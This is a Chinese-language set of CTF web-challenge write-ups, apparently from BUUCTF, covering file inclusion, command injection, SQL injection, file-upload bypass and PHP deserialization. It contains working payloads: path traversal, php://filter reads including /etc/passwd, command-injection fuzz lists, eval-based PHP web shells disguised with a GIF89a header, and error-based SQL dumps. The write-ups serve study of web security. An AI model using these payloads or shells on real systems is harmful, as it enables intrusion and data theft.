# Web

## [HCTF 2018]WarmUp

#### 进入站点查看源码可以发现 source.php



#### 访问 source.php 发现源码

>   这里有两个关键函数要弄懂

​			

##### `mb_substr`

###### 定义和用法

mb_substr() 函数返回字符串的一部分，之前我们学过 substr() 函数，它只针对英文字符，如果要分割的中文文字则需要使用 mb_substr()。

**注释：**如果 start 参数是负数且 length 小于或等于 start，则 length 为 0。

---

###### 语法

```php
`mb_substr ( string $str , int $start [, int $length = NULL [, string $encoding = mb_internal_encoding() ]] ) : string`
```


| 参数     | 描述                                                         |
| :------- | :----------------------------------------------------------- |
| *str*    | 必需。从该 string 中提取子字符串。                           |
| *start*  | 必需。规定在字符串的何处开始。正数 - 在字符串的指定位置开始负数 - 在从字符串结尾的指定位置开始0 - 在字符串中的第一个字符处开始 |
| *length* | 可选。规定要返回的字符串长度。默认是直到字符串的结尾。正数 - 从 start 参数所在的位置返回负数 - 从字符串末端返回 |
| encoding | 可选。字符编码。如果省略，则使用内部字符编码。               |

##### `mb_substr`

###### 语法

```php
int mb_strpos ( string $haystack , string $needle [, int $offset = 0 [, string $encoding = mb_internal_encoding() ]] )
```

###### 定义和用法

-   `haystack`：要在其中查找子字符串的字符串。
-   `needle`：要查找的子字符串。
-   `offset`：查找的起始位置。如果设置了此参数，则函数将从字符串的此位置开始查找子字符串。如果未设置，则默认为 0。
-   `encoding`：要使用的字符编码。如果未设置，则默认使用 `mb_internal_encoding()` 返回的字符编码。

如果函数在 `haystack` 中找到了 `needle`，则返回其第一次出现的位置，以 0 开头的整数。如果未找到，则返回 `false`。

#### 网站源码

思路：在第13行不能直接返回，否则会直接返回到 hint.php。阅读 19-25 行代码，其中会对`$page`进行切割并覆盖。我们可以利用这一点来构造出`payload`

```php
<?php
class emmm
{
    public static function checkFile(&$page)
    {
        # 白名单
        $whitelist = ["source"=>"source.php","hint"=>"hint.php"];
        if ( !isset($page) || !is_string($page)) {
            echo "you can't see it";
            return false;
        }
		# 这里不能直接返回
        if (in_array($page, $whitelist)) {
            return true;
        }

        # mb_substr(src, start, length)
        # 从 start 开始截取 字符串，截取长度：length
        $_page = mb_substr(
            $page,
            0,
            # mb_strpos(str, needle)
            # 返回 指定字符 在字符串中首次出现的位置
            mb_strpos($page . '?', '?')
        );
        if (in_array($_page, $whitelist)) {
            return true;
        }

        $_page = urldecode($page);
        $_page = mb_substr(
            $_page,
            0,
            mb_strpos($_page . '?', '?')
        );
        if (in_array($_page, $whitelist)) {
            return true;
        }
        echo "you can't see it";
        return false;
    }
}

if ( !empty($_REQUEST['file'])
    && is_string($_REQUEST['file'])
    && emmm::checkFile($_REQUEST['file'])
) {
    include $_REQUEST['file'];
    exit;
} else {
    echo "<br>";
}
```


首先访问`hint.php`可以看出`flag`的位置



**../即回退到上级目录，在url中使用../的时候 ../最前面随便写什么都行，只返回../最后面的文件数据。**

最后得到`payload`

`file=hint.php?../../../../../../../ffffllllaaaagggg`



## [ACTF2020 新生赛]Include - PHP伪协议

进入网站明显的 PHP 伪协议



使用 BuroSuite 对其进行模糊测试，下面是 字典

```
php://filter/convert.base64-encode/resource=index.php
php://filter/read=convert.base64-encode/resource=index.php
php://filter/zlib.deflate/convert.base64-encode/resource=index.php
php://filter/zlib.deflate/resource=index.php
php://filter/read=string.rot13/resource=index.php
php://filter/read=string.toupper/resource=index.php
php://filter/read=string.tolower/resource=index.php
php://filter/read=string.strip_tags/resource=index.php
php://filter/read=convert.base64-decode/resource=index.php
php://filter/convert.base64-decode/resource=index.php
php://filter/read=convert.quoted-printable-decode/resource=index.php
php://filter/convert.quoted-printable-decode/resource=index.php
php://filter/convert.uuencode/resource=index.php
php://filter/read=convert.uuencode/resource=index.php
php://filter/convert.urlencode/resource=index.php
php://filter/read=convert.urlencode/resource=index.php
php://filter/gzip/convert.base64-encode/resource=index.php
php://filter/read=string.toupper|convert.base64-encode/resource=index.php
php://filter/read=string.tolower|convert.base64-encode/resource=index.php
php://filter/read=string.rot13|convert.base64-encode/resource=index.php
php://filter/read=zlib.deflate|convert.base64-encode/resource=index.php
php://filter/zlib.deflate|convert.base64-encode/resource=index.php
php://filter/read=zlib.inflate/resource=index.php
php://filter/read=zlib.inflate/convert.base64-encode/resource=index.php
php://filter/zlib.inflate/convert.base64-encode/resource=index.php
php://filter/read=zlib.inflate/convert.base64-decode/resource=index.php
php://filter/zlib.inflate/convert.base64-decode/resource=index.php
php://filter/read=zlib.inflate/convert.quoted-printable-decode/resource=index.php
php://filter/zlib.inflate/convert.quoted-printable-decode/resource=index.php
php://filter/read=zlib.inflate|convert.base64-encode/resource=index.php
php://filter/zlib.inflate|convert.base64-encode/resource=index.php
php://filter/read=zlib.inflate|convert.base64-decode/resource=index.php
php://filter/zlib.inflate|convert.base64-decode/resource=index.php
php://filter/read=zlib.inflate|convert.quoted-printable-decode/resource=index.php
php://filter/zlib.inflate|convert.quoted-printable-decode/resource=index.php
php://filter/convert.base64-encode/resource=flag.php
php://filter/read=convert.base64-encode/resource=flag.php
php://filter/zlib.deflate/convert.base64-encode/resource=flag.php
php://filter/zlib.deflate/resource=flag.php
php://filter/read=string.rot13/resource=flag.php
php://filter/read=string.toupper/resource=flag.php
php://filter/read=string.tolower/resource=flag.php
php://filter/read=string.strip_tags/resource=flag.php
php://filter/read=convert.base64-decode/resource=flag.php
php://filter/convert.base64-decode/resource=flag.php
php://filter/read=convert.quoted-printable-decode/resource=flag.php
php://filter/convert.quoted-printable-decode/resource=flag.php
php://filter/convert.uuencode/resource=flag.php
php://filter/read=convert.uuencode/resource=flag.php
php://filter/convert.urlencode/resource=flag.php
php://filter/read=convert.urlencode/resource=flag.php
php://filter/gzip/convert.base64-encode/resource=flag.php
php://filter/read=string.toupper|convert.base64-encode/resource=flag.php
php://filter/read=string.tolower|convert.base64-encode/resource=flag.php
php://filter/read=string.rot13|convert.base64-encode/resource=flag.php
php://filter/read=zlib.deflate|convert.base64-encode/resource=flag.php
php://filter/zlib.deflate|convert.base64-encode/resource=flag.php
php://filter/read=zlib.inflate/resource=flag.php
php://filter/read=zlib.inflate/convert.base64-encode/resource=flag.php
php://filter/zlib.inflate/convert.base64-encode/resource=flag.php
php://filter/read=zlib.inflate/convert.base64-decode/resource=flag.php
php://filter/zlib.inflate/convert.base64-decode/resource=flag.php
php://filter/read=zlib.inflate/convert.quoted-printable-decode/resource=flag.php
php://filter/zlib.inflate/convert.quoted-printable-decode/resource=flag.php
php://filter/read=zlib.inflate|convert.base64-encode/resource=flag.php
php://filter/zlib.inflate|convert.base64-encode/resource=flag.php
php://filter/read=zlib.inflate|convert.base64-decode/resource=flag.php
php://filter/zlib.inflate|convert.base64-decode/resource=flag.php
php://filter/read=zlib.inflate|convert.quoted-printable-decode/resource=flag.php
php://filter/zlib.inflate|convert.quoted-printable-decode/resource=flag.php
php://input
php://stdin
php://memory
php://temp
php://output
php://fd
php://data
php://filter/convert.base64-decode/resource=file:///etc/passwd
php://filter/convert.base64-decode/resource=php://input
php://filter/convert.base64-decode/resource=php://stdin
php://filter/convert.base64-decode/resource=php://memory
php://filter/convert.base64-decode/resource=php://temp
php://filter/convert.base64-decode/resource=php://output
php://filter/convert.base64-decode/resource=php://fd
php://filter/convert.base64-decode/resource=php://data
php://filter/read=convert.base64-decode/resource=file:///etc/passwd
php://filter/read=convert.base64-decode/resource=php://input
php://filter/read=convert.base64-decode/resource=php://stdin
php://filter/read=convert.base64-decode/resource=php://memory
php://filter/read=convert.base64-decode/resource=php://temp
php://filter/read=convert.base64-decode/resource=php://output
php://filter/read=convert.base64-decode/resource=php://fd
php://filter/read=convert.base64-decode
```

获得 flag Base64 编码，对其进行 Base64 解码即可



## [GXYCTF2019]Ping Ping Ping - 系统命令执行过滤绕过

首先使用 Burp Suite做模糊测试测试出能使用的命令拼接符，字典如下：

```
; whoami
&& whoami
|| whoami
& whoami
| whoami
; echo test
&& echo test
|| echo test
& echo test
| echo test
; cat /etc/passwd
&& cat /etc/passwd
|| cat /etc/passwd
& cat /etc/passwd
| cat /etc/passwd
; id
&& id
|| id
& id
| id
; pwd
&& pwd
|| pwd
& pwd
| pwd
; ls -la
&& ls -la
|| ls -la
& ls -la
| ls -la
; ps aux
&& ps aux
|| ps aux
& ps aux
| ps aux
; netstat -an
&& netstat -an
|| netstat -an
& netstat -an
| netstat -an
; ping -c 3 127.0.0.1
&& ping -c 3 127.0.0.1
|| ping -c 3 127.0.0.1
& ping -c 3 127.0.0.1
| ping -c 3 127.0.0.1
&\ls
&&\ls
|\ls
||\ls
;ls
;\ls
```

==效果==



后面发现空格对空格进行了绕过，得出payload如下

解释：$IFS$9 对空格进行绕过，使用反引号对`ls`进行包裹，使得`ls`命令得到的结果返回给`cat`进行二次操作

```
cat$IFS$9`ls`
```

Kali 效果展示


==Fuzz字典==

```
+
cat+`ls`
$
cat$`ls`
%09
cat%09`ls`
$IFS$9
cat$IFS$9`ls`
${IFS}
cat${IFS}`ls`
```

==flag输出==



## [强网杯 2019]随便注

#### 前置知识：堆叠注入

原理：通过使用`;`闭合前面的SQL语句。再在后面构造新的SQL语句

```SQL
mysql> select * from int_intruder where id=1;show tables;
+----+----------+----------+
| id | username | passwd   |
+----+----------+----------+
|  1 | jake     | Aa123456 |
+----+----------+----------+
1 row in set (0.01 sec)

+--------------------+
| Tables_in_intruder |
+--------------------+
| int_intruder       |
| str_intruder       |
+--------------------+
2 rows in set (0.00 sec)
```

#### 实战流程

通过常规`UNION`注入发现对SQL关键词进行了屏蔽



通过观察过滤字符串发现并没有对`show`关键字进行过滤。此时可以尝试使用堆叠注入（成功输出表名）

+ payload：`1';show tables;#`



对`1919810931114514`进行字段查询（注意由于`1919810931114514`是由数字组成，所以查询时需要使用反引号进行包裹）

payload：``1';show columns from `1919810931114514`;#``



注意：对于`show`关键字的查询，最多只能查询到字段名，无法获取具体的值。所以此时需要另外想办法

+ 由于后台处理是查询`words`且查询的是`id`。所以这里的解法之一是：通过对两张表的名字互换并为`1919810931114514`添加`id`自增长字段以达到直接通过查询得到`flag`
+ payload：``1'; rename table words to word1; rename table `1919810931114514` to words;alter table words add id int unsigned not Null auto_increment primary key;#``



直接查询1得到`flag`



## [极客大挑战 2019]Http

#### 前置知识：HTTP基本字段认识

+ HTTP协议中的`Referer`字段用于告知服务器当前请求来源于**哪一个网站或者哪一个网站**
+ HTTP协议中的`X-Forwarded-For`字段用于告知服务器当前请求来源于或者经过**哪一个IP地址**
+ HTTP协议中的`User-Agent`字段用于告知服务器当前请求的**客户端浏览器信息**、**客户端浏览器版本**、**客户端操作系统**

#### 实战流程

进入网站被告知不是来自`https://Sycsecret.buuoj.cn`，使用`Referer`进行绕过

payload：`Referer: https://Sycsecret.buuoj.cn`



绕过后被告知不是使用`Syclover`浏览器，通过修改`User-Agent`绕过

payload：`Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Syclover/98.0.4758.82`



绕过浏览器限制后被告知不是来自于本地网络访问，通过修改`X-Forwarded-Fo`绕过

payload：`X-Forwarded-For: 127.0.0.1`



## [极客大挑战 2019]Upload - GIF89a 头文件欺骗

#### 前置知识

##### GIF89a 头文件欺骗

在系统读取到`GIF89a`这个头文件代码之后，就会直接将该文件当成**图片文件**来处理，并且不会再对后续的内容做**安全过滤**

##### PHTML 后缀

`phtml`后缀是PHP2的后缀名，在PHP4以后都是直接使用`php`后缀名，但直到现在，`phtml`后缀任然有效

##### PHP木马的各种写法

```php
<?php eval($_POST['cmd']);?>

<% eval($_POST['cmd']);%>

<O>h=@eval($_POST['cmd']);</O>

<?="helloworld";?>

<script language="php">@eval($_POST['cmd']);</script>
```


#### 实战流程

##### 构造木马文件

```
GIF89a
<script language="php">@eval($_POST['cmd']);</script>
```

##### 使用bp拦截并修改数据包

将文件类型改为：image/jpeg 即可，`$_file` 在接收文件时，通过判断HTTP`Request`中的`Content-Type`来判断文件内容



##### 最后使用蚁剑连接即可



## [ACTF2020 新生赛]BackupFile - 备份文件

#### 前置知识

这题比较简单，利用的是PHP语言是一门弱语言类型这一特点


```php
<?php
$str = '123';
# 判断是否是数字
var_dump(intval($str));
var_dump($str == 123);
```

==输出==

```php
# 我们可以看出，即使 $str 是字符串，PHP一样可以把他判断为 int 类型，且跟 int:123 相等
D:\PHP\tmp.php:3:
int(123)
D:\PHP\tmp.php:4:
bool(true)
```

#### 实战流程

##### 寻找源文件

进入网站发现需要我们寻找源文件，这里直接使用bp做模糊测试即可



使用bp做模糊测试，加载PHP备份文件字典，注意取消`Payload Encodeing`







##### Payload

```
http://fd81ad6c-4bb4-47d8-bf46-d9a9f600ea58.node4.buuoj.cn:81/index.php?key=123
```

## [RoarCTF 2019]Easy Calc

#### 前置知识

##### `$_GET`绕过

```
对于$_GET的传参，在前面加空格或者'+'都不影响识别

一般输入：?num=123
D:\PHP\tmp.php:3:
array (size=1)
  'num' => string '123' (length=3)
  
空格输入：? num=123
D:\PHP\tmp.php:3:
array (size=1)
  'num' => string '123' (length=3)
  
+输入：?+num=123
D:\PHP\tmp.php:3:
array (size=1)
  'num' => string '123' (length=3)
```

##### `scandir()`

`scandir(目录路径)`：用于扫描文件目录所有的文件

##### `file_get_contents(文件路径)`

`file_get_contents(文件路径)`：用于读取文件内容

#### 实战流程

进入站点查看源文件，说明其中有WAF过滤并发现网页源码



从网页源码可以看出是有一个黑名单过滤的，但是这里的黑名单可以使用 ASCII 编码绕过



输入`?num=phpinfo()`查看发现疑似被WAF过滤



输入`? num=phpinfo()`成功绕过



再次查看源码，其实很明显，能作妖的地方只有`eval`函数，我们使用`scandir()`函数读取文件。发现flag

payload：`?%20num=var_dump(scandir(chr(47)))`这里的`chr(47)`等于`/`。即查看根目录的文件信息



使用`file_get_contents`读取文件内容

payload：`?%20num=var_dump(file_get_contents(chr(47).chr(102).chr(49).chr(97).chr(103).chr(103)))`

这条payload = `?%20num=var_dump(file_get_contents('/f1agg'))`



## [极客大挑战 2019]BuyFlag

要成功获取到 POST 需要3个前提条件：

1. You must be a student from CUIT!!!
2. You must be answer the correct password!!!
3. FLAG NEED YOUR 100000000 MONEY

通过多次刷新可以发现Cookie字段，将cookie字段改为1，可成功得到学生身份（cookie不会在第一个数据包出现，所以记住：以后抓包不抓第一个数据包）



F12可查看网页源码，这里提示必须POST提交 money 和 password



POST payload：`password=404a&money=1e9`

password = 404a 以绕过函数`is_numeric()`的监测。money=1e9 使用科学计数法来绕过对money的长度检查

## [BJDCTF2020]Easy MD5

#### 前置知识：md5 函数绕过

##### md5($password,true)导致的注入

`select * from 'admin' where password=md5($pass,true)`

```
md5(string,raw)，第一个参数必填，第二个可选
当第二个参数默认不写为FALSE，就返回32位16进制的字符串
当第二个参数为TRUE，返回16位原始二进制格式的字符串
```

绕过原理：

`ffifdyop` 这个字符串被 md5 哈希了之后会变成 `276f722736c95d99e921722cf9ed621c`，这个字符串前几位刚好是 `‘ or ‘6`，

而 Mysql 刚好又会吧 hex 转成 ascii 解释，因此拼接之后的形式是`select * from ‘admin’ where password=’’ or ‘6xxxxx’`

而`or ‘6xxxxx’` 在mysql判断里面，相当于or 1 ，即等价于 or 一个永真式，因此相当于万能密码，可以绕过md5()函数


##### 数组绕过

md5()函数**无法处理数组**，如果传入的为数组，会返回`NULL`，所以两个数组经过加密后得到的都是NULL,也就是相等的

```php
<?php
$a = array('aaa');
$b = array('bbb');
# 判断两个数组的值是否相等
var_dump($a==$b);
# 由于md5函数无法处理数组，所以当md5函数对数组进行计算的时候，会返回空。以至于 $a=$b
@var_dump(md5($a) == md5($b));
```

==输出==

```php
D:\PHP\tmp.php:5:
bool(false)
D:\PHP\tmp.php:7:
bool(true)
```

##### 两个或三个等号时候可以采用碰撞的方法绕过

```php
$a = $GET['a'];
$b = $_GET['b'];

if($a != $b && md5($a) == md5($b)){
    echo $flag;
}
```

PHP在处理哈希字符串时，会利用”!=”或”==”来对哈希值进行比较，它把每一个以”0E”开头的哈希值都解释为0，所以如果两个不同的密码经过哈希以后，其哈希值都是以”0E”开头的，那么PHP将会认为他们相同，都是0

```
QNKCDZO
0e830400451993494058024219903391
  
s878926199a
0e545993274517709034328855841020
  
s155964671a
0e342768416822451524974117254469
  
s214587387a
0e848240448830537924465865611904
  
s214587387a
0e848240448830537924465865611904
  
s878926199a
0e545993274517709034328855841020
  
s1091221200a
0e940624217856561557816327384675
  
s1885207154a
0e509367213418206700842008763514
  
s1502113478a
0e861580163291561247404381396064
  
s1885207154a
0e509367213418206700842008763514
```

#### 实战流程

进入网站没有发现任何线索，抓包可也发现提示！



`select * from 'admin' where password=md5($pass,true)`这条代码是PHP的代码。在这里可以使用**md5万能密码**绕过。与PHP万能密码原理一样，都是通过构造类似`or 1=1`的恒真布尔判断。根据前置知识可以知道使用`ffifdyop`


成功绕过后进入一个新站点，查看源码可发现线索



判断条件是`$a != $b`并且`md5($a) == md5($b)`这里可以使用数组进行绕过，通过对数组赋予不同的值可使`$a != $b`为True。并且由于md5函数无法对数组进行计算，所以会直接返回`NULL`， 可使得`md5($a) == md5($b)`为True



进入站点之后其实原理都一样了，只不过这里需要使用POST提交




## [GXYCTF2019]BabySQli

### 前置知识

MySQL的联合查询如果where条件没有查到东西，那么就会返回union查询后的查询结果

```mysql
mysql> select * from user;
+----+----------+----------------------------------+
| id | username | password                         |
+----+----------+----------------------------------+
|  1 | admin    | e10adc3949ba59abbe56e057f20f883e |
+----+----------+----------------------------------+
1 row in set (0.00 sec)

# union 查询id=2，数据不存在，返沪呗查询内容本身
mysql> select * from user where id=2 union select 1,2,3;
+----+----------+----------+
| id | username | password |
+----+----------+----------+
|  1 | 2        | 3        |
+----+----------+----------+
1 row in set (0.00 sec)

# 以此就能做到伪造数据表的目的
mysql> select * from user where id=2 union select 1,'admin',md5(123456);
+----+----------+----------------------------------+
| id | username | password                         |
+----+----------+----------------------------------+
|  1 | admin    | e10adc3949ba59abbe56e057f20f883e |
+----+----------+----------------------------------+
1 row in set (0.00 sec)
```

### 解题流程

***1. 进入网站***

进入网站发现是一个登录页面



***2. 尝试登录***

密码错误，可知账户名是：admin



***3. 查看源码***

查看源码发现一串字符串:``

|      | <!--MMZFM422K5HDASKDN5TVU3SKOZRFGQRRMMZFM6KJJBSG6WSYJJWESSCWPJNFQSTVLFLTC3CJIQYGOSTZKJ2VSVZRNRFHOPJ5--> |
| ---- | ------------------------------------------------------------ |
|      |                                                              |

****

发现SQL语句

```bash
import base64

data = "MMZFM422K5HDASKDN5TVU3SKOZRFGQRRMMZFM6KJJBSG6WSYJJWESSCWPJNFQSTVLFLTC3CJIQYGOSTZKJ2VSVZRNRFHOPJ5"
data = base64.b32decode(data)
print(data)

b64 = base64.b64decode(data)
print(b64)

# 输出
C:\Python\python.exe "D:\Python\Linux 应急响应\test2.py" 
b'c2VsZWN0ICogZnJvbSB1c2VyIHdoZXJlIHVzZXJuYW1lID0gJyRuYW1lJw=='
b"select * from user where username = '$name'"
```

***4. 尝试SQL注入***

经过测试，网站对`( ) or`进行了过滤，一旦出现这些字符串就无法进行注入，所以这里只能用：`union select`，但是网站本身的回显只有两种情况：`wrond user | worng pass`，所以没有办法做常规的联合注入

**4.1 union 注入**

首先先确定查询的列数，为3




假设第一列为用户名：`wrong user`



假设第二列为用户名：`wrong pass`，以此就可以推断出第二列是用户名。



**4.2 源码审计**

```bash
# 测试语句

# 当SQL语句是正确的时候，$res为TRUE
<?php
$db = mysqli_connect('127.0.0.1', 'root', 'root', 'intruder');
$sql = "select * from user where username='23456'";
$res = mysqli_query($db, $sql);
var_dump(boolval($res));

# 输出
D:\PHP\test.php:5:
bool(true)


# 当SQL语句是错误的时候，$res为False
<?php
$db = mysqli_connect('127.0.0.1', 'root', 'root', 'intruder');
$sql = "select * from user wh username='23456'";
$res = mysqli_query($db, $sql);
var_dump(boolval($res));

# 输出
D:\PHP\test.php:5:
bool(false)
```


```php
<!--MMZFM422K5HDASKDN5TVU3SKOZRFGQRRMMZFM6KJJBSG6WSYJJWESSCWPJNFQSTVLFLTC3CJIQYGOSTZKJ2VSVZRNRFHOPJ5-->
<meta http-equiv="Content-Type" content="text/html; charset=utf-8" />
<title>Do you know who am I?</title>
<?php
require "config.php";
require "flag.php";
 
// 去除转义
if (get_magic_quotes_gpc()) {
    function stripslashes_deep($value)
    {
        $value = is_array($value) ?
        array_map('stripslashes_deep', $value) :
        stripslashes($value);
        return $value;
    }
 
    $_POST = array_map('stripslashes_deep', $_POST);
    $_GET = array_map('stripslashes_deep', $_GET);
    $_COOKIE = array_map('stripslashes_deep', $_COOKIE);
    $_REQUEST = array_map('stripslashes_deep', $_REQUEST);
}
 
mysqli_query($con,'SET NAMES UTF8');
$name = $_POST['name'];
$password = $_POST['pw'];
$t_pw = md5($password);
# SQL语句执行
$sql = "select * from user where username = '".$name."'";
$result = mysqli_query($con, $sql);
 
# 输入过滤：( ) = or
if(preg_match("/\(|\)|\=|or/", $name)){
    die("do not hack me!");
}
else{
    # SQL语句执行错误，返回False
    if (!$result) {
        printf("Error: %s\n", mysqli_error($con));
        exit();
    }
    # SQL语句执行正确执行分支
    else{
        $arr = mysqli_fetch_row($result);
        # 匹配输入用户名是否是“admin”
        if($arr[1] == "admin"){
            # 匹配密码md5之后是否相同
            if(md5($password) == $arr[2]){
                echo $flag;
            }
            else{
                die("wrong pass!");
            }
        }
        else{
            die("wrong user!");
        }
    }
}
 
?>
```

**4.3 最后答案**

整个题目其实最难的点就是不知道密码做了MD5的操作，利用UNION查询查不到数据的时候会伪造一条数据的特点就可以绕过

```mysql
mysql> select * from user where id=2 union select 1,'admin',md5(123456);
+----+----------+----------------------------------+
| id | username | password                         |
+----+----------+----------------------------------+
|  1 | admin    | e10adc3949ba59abbe56e057f20f883e |
+----+----------+----------------------------------+
1 row in set (0.00 sec)
```

python 计算`123456`的md5值

```py
import hashlib

data = '123456'
md5 = hashlib.md5(data.encode('utf-8'))
print(md5.hexdigest())

# 输出
e10adc3949ba59abbe56e057f20f883e
```


最后`payload`：`name=-1' union select 1,'admin','e10adc3949ba59abbe56e057f20f883e'--+&pw=123456`



## [网鼎杯 2020 青龙组]AreUSerialz

### 前置知识

这题有3个解法：

1. 使用`\00`绕过
2. 使用PHP伪协议
3. 利用PHP7.1 x对属性类型不敏感

PHP 属性类型不敏感演示

```php
# 原题
<?php
class Test1{
    protected $str = '1';

    public function __destruct(){
        echo $this->str;
    }

}

$t = new Test1();
echo serialize($t);


# 直接将 protected 改成 public
<?php
class Test1
{
    public $str = '1';

    public function __destruct()
    {
        echo $this->str;
    }

}

$res = unserialize('O:5:"Test1":1:{s:3:"str";s:2:"10";}');

# 输出
10
```

### 解题流程

**1. 题目代码**

```bash
<?php

include("flag.php");

highlight_file(__FILE__);

class FileHandler {

    protected` $op;
    protected $filename;
    protected $content;

    function __construct() {
        $op = "1";
        $filename = "/tmp/tmpfile";
        $content = "Hello World!";
        $this->process();
    }

    public function process() {
        if($this->op == "1") {
            $this->write();
        } else if($this->op == "2") {
            $res = $this->read();
            $this->output($res);
        } else {
            $this->output("Bad Hacker!");
        }
    }

    private function write() {
        if(isset($this->filename) && isset($this->content)) {
            if(strlen((string)$this->content) > 100) {
                $this->output("Too long!");
                die();
            }
            $res = file_put_contents($this->filename, $this->content);
            if($res) $this->output("Successful!");
            else $this->output("Failed!");
        } else {
            $this->output("Failed!");
        }
    }

    private function read() {
        $res = "";
        if(isset($this->filename)) {
            $res = file_get_contents($this->filename);
        }
        return $res;
    }

    private function output($s) {
        echo "[Result]: <br>";
        echo $s;
    }

	# op 必须要等于1
    function __destruct() {
        if($this->op === "2")
            $this->op = "1";
        $this->content = "";
        $this->process();
    }

}

# 如果输入进来的字符串不在 ASCII码 32 - 125 的范围内，直接退出程序
function is_valid($s) {
    for($i = 0; $i < strlen($s); $i++)
        if(!(ord($s[$i]) >= 32 && ord($s[$i]) <= 125))
            return false;
    return true;
}

if(isset($_GET{'str'})) {

    $str = (string)$_GET['str'];
    if(is_valid($str)) {
        $obj = unserialize($str);
    }

}
```

**2. 解法一**

+ `op===2`，直接使用`'2'`就好
+ `is_vaild`函数，必须要求在ASCII码 32 - 125 的范围内

由于`%00`经过URL解码后不在规定范围之内，所以会被`is_vaild`拦截，这里网上的办法是：**利用大写S采用的16进制，来绕过is_valid中对空字节的检查。 //00 替换 %00 。**这里我也不能理解为什么最后要用S来代替s

最后payload：`O:11:"FileHandler":3:{S:5:"\00*\00op";i:2;S:11:"\00*\00filename";S:8:"flag.php";S:10:"\00*\00content";S:0:"";}`

**2. 解法二**

利用PHP7.1+对属性类型不敏感，直接将`protected`改为`public`，输出反序列字符串

payload：`O:11:"FileHandler":3:{s:2:"op";i:2;s:8:"filename";s:8:"flag.php";s:7:"content";s:0:"";}`

**3. 解法三**

PHP伪协议

## [MRCTF2020]Ez_bypass

这题考的还是PHP弱语言类型，考的还是比较简单

### 前置知识

**PHP md5函数绕过**

`md5()`无法处理数组，所以会直接返回null，具体可看上面的Easy MD5

```php
<?php
$str[] = 'a';
var_dump(md5($str));

# 输出
NULL
```

**is_numeric 无法检测纯数字字符串**

```php
<?php
var_dump(is_numeric('123456'));

# 输出
bool(true)
```

### 解题流程

```php
<?php
include 'flag.php';
$flag = 'MRCTF{xxxxxxxxxxxxxxxxxxxxxxxxx}';
if (isset($_GET['gg']) && isset($_GET['id'])) {
    $id = $_GET['id'];
    $gg = $_GET['gg'];
    # 绕过点1：md5 函数绕过，id 和 gg 都要是数组
    if (md5($id) === md5($gg) && $id !== $gg) {
        echo 'You got the first step';
        if (isset($_POST['passwd'])) {
            $passwd = $_POST['passwd'];
            # 绕过点2：要求 passwd 不是数字但是又要等于1234567
            if (!is_numeric($passwd)) {
                if ($passwd == 1234567) {
                    echo 'Good Job!';
                    highlight_file('flag.php');
                    die('By Retr_0');
                } else {
                    echo "can you think twice??";
                }
            } else {
                echo 'You can not get it !';
            }

        } else {
            die('only one way to get the flag');
        }
    } else {
        echo "You are not a real hacker!";
    }
} else {
    die('Please input first');

}
```

**payload：**

GET`?id[]=a&gg[]=b` POST：`passwd=1234567a`


## [极客大挑战 2019]HardSQL

### 前置知识

这题首先都空格进行了严格过滤。用户输入中不允许带有空格，在无法使用空格的情况下，则需要**多用括号**，在使用括号的过程中，==关键字不允许被括号包裹==

```sql
# or 的左右并没有空格但依然可以正常回显
mysql> select * from str_intruder where id = '1'or(1);
+----+----------+----------+
| id | username | passwd   |
+----+----------+----------+
| 1  | jake     | Aa123456 |
| 2  | Gogo     | Aa123456 |
| 3  | Peo      | Aa123456 |
| 4  | Bob      | Aa123456 |
+----+----------+----------+
4 rows in set (0.00 sec)
```

### 解题流程

**1. 确定闭合方式**

```
username=admin&password=admin'%23
```



**2. 爆库**

```bash
username=admin&password=admin'or(updatexml(1,concat(0x7e,(select(database()))),3))%23
```



**3. 爆表**

这里由于过滤了`=`，所以使用`like`关键字

```bash
username=admin&password=-1'or(updatexml(1,concat(0x7e,(select(group_concat(table_name))from(information_schema.tables)where((table_schema)like("geek")))),3))%23
```


**4. 爆字段**

由于这里的数据量比较小，所以不用指定数据表也能得到完整数据

```bash
username=admin&password=-1'or(updatexml(1,concat(0x7e,(select(group_concat(column_name))from(information_schema.columns)where((table_schema)like("geek")))),3))%23
```


**5. 拖库**

这里通过分析得到密码就是flag，但是由于这里对`substring()`或者是`substr?()`都做了过滤，查了一下，使用`left()`和`right()`函数

```bash
# 先使用left函数查出左半部分内容
username=admin&password=-1'or(updatexml(1,concat(0x7e,(select(left((group_concat(password)),30))from(H4rDsq1))),3))%23

# 再使用right函数查出右半部分内容
username=admin&password=-1'or(updatexml(1,concat(0x7e,(select(right((group_concat(password)),30))from(H4rDsq1))),3))%23

# flag：flag{ad1d3318-b81c-4db8-ad5f-48aaeefbbcb8}
```


## [SUCTF 2019]EasySQL

### 前置知识

```sql
# 在这条SQL语句中，MySQL会将*看为一部分（做一个查询对象），1 || password 做一列（一个查询对象），由于使用的是“||”，所以永远只会查询 || 左边的内容
mysql> select *,1 || password from user;
+----+----------+----------------------------------+---------------+
| id | username | password                         | 1 || password |
+----+----------+----------------------------------+---------------+
|  1 | admin    | e10adc3949ba59abbe56e057f20f883e |             1 |
+----+----------+----------------------------------+---------------+
1 row in set (0.00 sec)
```

### 解题流程

**1. 后台SQL语句**

看了WP才知道的后台SQL语句是这样写的

```php
$sql = "select ".$post['query']."||flag from Flag";
```

**2. payload**

结合前置知识可以知道最后的payload为：`*,1`

## [GXYCTF2019]BabyUpload

考察的是基本的文件上传绕过，这里只允许上传图片文件。尝试上传`.htaccess`

这里要将文件类型改为：`image/jpeg`，以绕过PHP的过滤



上传一句话木马，这里使用`script`标签绕过



使用蚁剑连接，这里必须要将编码器改为Base-64



## [GYCTF2020]Blacklist

### 前置知识

MySQL的数据查询，除了可以使用`select`方法，还有`handler`方法，此方法可以允许我们一行一行的浏览数据

```sql
mysql> handler users open;
Query OK, 0 rows affected (0.01 sec)
mysql> handler users read first;
+----+----------+----------+
| id | username | password |
+----+----------+----------+
|  1 | Dumb     | Dumb     |
+----+----------+----------+
1 row in set (0.01 sec)

mysql> handler users read next;
+----+----------+------------+
| id | username | password   |
+----+----------+------------+
|  2 | Angelina | I-kill-you |
+----+----------+------------+
1 row in set (0.00 sec)

mysql> handler users read next;
+----+----------+----------+
| id | username | password |
+----+----------+----------+
|  3 | Dummy    | p@ssword |
+----+----------+----------+
1 row in set (0.00 sec)

mysql> handler users close;
Query OK, 0 rows affected (0.00 sec)
```

### 解题流程



这里可以看到了被过滤的函数：

```
return preg_match("/set|prepare|alter|rename|select|update|delete|drop|insert|where|\./i",$inject);
```

